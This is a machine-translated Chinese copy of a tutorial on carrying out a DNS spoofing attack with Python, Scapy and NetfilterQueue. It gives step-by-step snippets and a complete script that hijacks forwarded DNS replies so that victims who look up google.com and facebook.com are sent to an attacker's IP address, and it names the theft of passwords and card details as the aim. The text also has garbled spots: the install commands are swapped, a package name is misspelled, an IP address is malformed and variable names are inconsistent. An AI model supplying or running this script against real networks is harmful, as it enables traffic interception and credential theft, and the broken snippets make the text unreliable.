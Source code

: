# 如何用 Python 中的 Scapy 进行 DNS 恶搞攻击？

> 原文:[https://www . geeksforgeeks . org/如何制作 DNS-欺骗-攻击-使用 python 中的 scapy/](https://www.geeksforgeeks.org/how-to-make-a-dns-spoof-attack-using-scapy-in-python/)

在本文中，我们将讨论如何使用 Python 中的 Scapy 进行 DNS 欺骗攻击。在开始之前，我们需要知道几点:

*   **DNS server:** The domain name system provides a method to match human-readable domain names to IP addresses. For example, when we search for google.com, the browser queries the [domain name system](https://www.geeksforgeeks.org/domain-name-system-dns-in-application-layer/) server for the domain name system to return the IP address of Google server (172.217.166.110).
*   **DNS spoof:** DNS spoof is a computer network attack, which forces the target to navigate to the fake page by replacing the IP address sent by the DNS server. This target doesn't know this is a fake page. The motive of the attack is to steal the target's data (user name, credit card details, password, etc.).

**所需模块:**

*   **Netfilter queue:** [Netfilter queue](https://pypi.org/project/NetfilterQueue/) is a Python library, which provides access to data packets matched by iptables rules in Linux. Such matched packets can be accepted, discarded, changed or marked. Run the following command to install:

```
pip3 install scapy
```

*   **Scapy:** [Scapy](https://scapy.readthedocs.io/en/latest/) is a Python package used to manipulate computer network packets. It can complete tasks such as scanning, tracking routing, probing, unit testing and network discovery. Run the following command to install:

```
pip3 install netfiltdrqueue
```

**采用的方法:**

*   在目标网络中实施 ARP 欺骗，以便所有数据包都可以通过您的设备进行路由。
*   创建一个 Iptable 链规则，将通过设备路由的数据包推送到网络过滤队列。
*   下一步是用我们的脚本处理数据包(脚本解释如下)。
*   处理后的数据包将被发送给受害者。
*   那么受害者将从域名系统响应中收到一个假的 IP 地址。
*   当您希望终止脚本时，请删除我们在第二步中创建的 Iptable 规则。

**我们来看看分步实现 DNS 欺骗的命令和功能。**

**步骤 1:** 导入模块。

```
from scapy.all import *

import os
import logging as log
from scapy.all import IP, DNSRR, DNSQR, UDP, DNS
from netfilterqueue import NetfilterQueue
```

**第 2 步:**将此规则插入到 IP 表中，这样数据包将被重定向到 NetfilterQuque。然后我们可以使用 scapy 包来修改队列中的数据包。队列号可以是您选择的任何数字。

```
os.system("sudo iptables -I FORWARD -j NFQUEUE --queue-num  1")
```

**步骤 3:** 创建网络过滤队列对象。

```
queue = NetfilterQueue()
```

**步骤 4:** 将队列对象绑定到队列号和回调函数。然后在实现回调函数后启动队列。

```
queue.bind(queueNum,callback)
queue.run()
```

**第五步:**创建我们需要欺骗的主机名的 DNS 记录字典。您可以根据自己的选择添加更多的域名映射(所有映射的 IP 地址不必相同)。

```
hostsDict = {
    "google.com"  : "192.168..48.243",
    "facebook.com" : "192.168.48.243"
}
```

**第 6 步:**当新的数据包进入队列时，将调用回调函数。数据包将作为参数传递给回调函数。

```
def callBack(packet):
```

**步骤 7:** 接下来，将 NetfilterQueue 数据包转换为 scapy 数据包，以处理该数据包。

```
scapyPacket = IP(packet.get_payload())
```

**步骤 8:** 检查数据包中是否有域名系统资源记录。如果它有 DNSRR，我们将修改数据包，否则不会对数据包进行任何更改。

```
if scapyPacket.haslayer(DNSRR):
```

**步骤 9:** 从数据包中获取域名系统查询名称。查询名称是受害者发送给 DNS 服务器的主机名。

```
queryName = scapyPacket[DNSQR].qname
```

**步骤 10:** 如果我们的目标主机字典中的查询名称，我们用主机字典中的 IP 地址修改 DNS 发送的 IP 地址。

```
if queryName in hostDict:
    sacpyPacket[DNS].an = DNSRR(rrname = queryName, rdata = hostDict[queryName])
```

**步骤 11:** 修改数据包计数为 1，因为我们被发送给受害者一个单一的 DNSRR。

```
scapyPacket[DNS].ancount = 1
```

**步骤 12:** 可以使用校验和和其他信息检测数据包损坏，因此我们删除它们，并使用 scapy 生成一个新条目。

```
del scapyPacket[IP].len
del scapyPacket[IP].chksum
del scapyPacket[UDP].len
del scapyPacket[UDP].chksum
```

**步骤 13:** 将修改后的 scapy 数据包有效负载设置为 NetfilterQueue 数据包。

```
packet.set_payload(bytes(scapyPacket))
```

**第 14 步:**数据包准备发送给受害者。

```
packet.accept()
```

**步骤 15:** 终止脚本时，删除创建的 IP 表规则。

```
os.system("sudo iptables -D FORWARD -j NFQUEUE --queue-num 1")
```

**下面是完整实现:**

## 蟒 3

```
import os
import logging as log
from scapy.all import IP, DNSRR, DNS, UDP, DNSQR
from netfilterqueue import NetfilterQueue

class DnsSnoof:
    def __init__(self, hostDict, queueNum):
        self.hostDict = hostDict
        self.queueNum = queueNum
        self.queue = NetfilterQueue()

    def __call__(self):
        log.info("Snoofing....")
        os.system(
            f'iptables -I FORWARD -j NFQUEUE --queue-num {self.queueNum}')
        self.queue.bind(self.queueNum, self.callBack)
        try:
            self.queue.run()
        except KeyboardInterrupt:
            os.system(
                f'iptables -D FORWARD -j NFQUEUE --queue-num {self.queueNum}')
            log.info("[!] iptable rule flushed")

    def callBack(self, packet):
        scapyPacket = IP(packet.get_payload())
        if scapyPacket.haslayer(DNSRR):
            try:
                log.info(f'[original] { scapyPacket[DNSRR].summary()}')
                queryName = scapyPacket[DNSQR].qname
                if queryName in self.hostDict:
                    scapyPacket[DNS].an = DNSRR(
                        rrname=queryName, rdata=self.hostDict[queryName])
                    scapyPacket[DNS].ancount = 1
                    del scapyPacket[IP].len
                    del scapyPacket[IP].chksum
                    del scapyPacket[UDP].len
                    del scapyPacket[UDP].chksum
                    log.info(f'[modified] {scapyPacket[DNSRR].summary()}')
                else:
                    log.info(f'[not modified] { scapyPacket[DNSRR].rdata }')
            except IndexError as error:
                log.error(error)
            packet.set_payload(bytes(scapyPacket))
        return packet.accept()

if __name__ == '__main__':
    try:
        hostDict = {
            b"google.com.": "192.168.1.100",
            b"facebook.com.": "192.168.1.100"
        }
        queueNum = 1
        log.basicConfig(format='%(asctime)s - %(message)s', 
                        level = log.INFO)
        snoof = DnsSnoof(hostDict, queueNum)
        snoof()
    except OSError as error:
        log.error(error)
```